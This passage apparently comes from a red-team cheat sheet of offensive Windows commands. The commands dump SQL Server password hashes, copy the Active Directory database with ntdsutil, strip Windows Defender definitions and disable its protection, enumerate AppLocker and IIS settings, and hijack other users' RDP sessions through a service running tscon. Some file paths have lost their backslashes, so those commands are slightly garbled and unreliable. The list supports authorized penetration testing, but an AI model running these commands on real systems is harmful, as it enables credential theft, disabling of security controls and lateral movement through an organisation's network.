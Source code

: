     sqlcmd -E -S localhost -Q "SELECT name, password_hash FROM master.sys.sql_logins;"

### NTDSUTIL

Built-in utility to create backup copy of the AD database

    ntdsutil "ac i ntds" "ifm" "create full c:temp" q q

### Applocker

List Applocker's effective policy on the system

    Get-ApplockerPolicy -Effective

### Windows Defender

Remove definitions and disable AV protection (Useful when Powershell scripts are being blocked by Defender)

    c:program fileswindows defendermpcmdrun.exe" -RemoveDefinitions -All Set-MpPreference -DisableIOAVProtection $true

### APPCMD

Get virtual directories in IIS

    c:windowssystem32inetsrvappcmd.exe list vdir /text:physicalpath

## Windows Lateral Movement

RDP Hijacking

If you have SYSTEM context on a host, you can assume the RDP sessions of other users without credentials using the tscon.exe command.

Gain access to cmd.exe to issue the tscon.exe command over RDP by creating a backdoor with Stickkeys or Utilman. Use scheduled tasks (as SYSTEM) or create a service to execute the desired command.

[RDP hijacking — how to hijack RDS and RemoteApp sessions transparently to move through an organisation][7]

    # View RDP sessions on system your RDP'd to with administrative permissions

    # Locally
    quser

    # Remote
    quser /server:

    # Create a service that will swap your SESSIONNAME with the desired disconnected session
    sc create sesshijack binpath= "cmd.exe /k tscon 1 /dest:rdp-tcp#XX" error= "ignore"


[1]: /threatexpress/img/pasties.png
[2]: https://www.twitter.com/joevest
[3]: https://www.twitter.com/andrewchiles
[4]: https://www.twitter.com/minis_io
[5]: https://canarytokens.org/generate#
[6]: http://blog.portswigger.net/2017/07/cracking-lens-targeting-https-hidden.html
[7]: https://medium.com/@networksecurity/rdp-hijacking-how-to-hijack-rds-and-remoteapp-sessions-transparently-to-move-through-an-da2a1e73a5f6
[8]: http://www.exploit-monday.com/2013/04/PersistenceWithPowerShell.html
[9]: https://github.com/subTee/ApplicationWhitelistBypassTechniques/blob/master/TheList.txt
[10]: http://clymb3r.wordpress.com/2013/04/06/reflective-dll-injection-with-powershell/
[11]: https://github.com/HarmJ0y/CheatSheets/blob/master/PowerUp.pdf
[12]: https://github.com/HarmJ0y/CheatSheets/blob/master/PowerView.pdf
[13]: https://gist.github.com/HarmJ0y/3328d954607d71362e3c
[14]: https://adsecurity.org/?p=2362
[15]: http://blog.cobaltstrike.com/2016/07/06/gettin-down-with-aggressor-script/
[16]: https://blog.cobaltstrike.com/2017/06/23/opsec-considerations-for-beacon-commands/#respond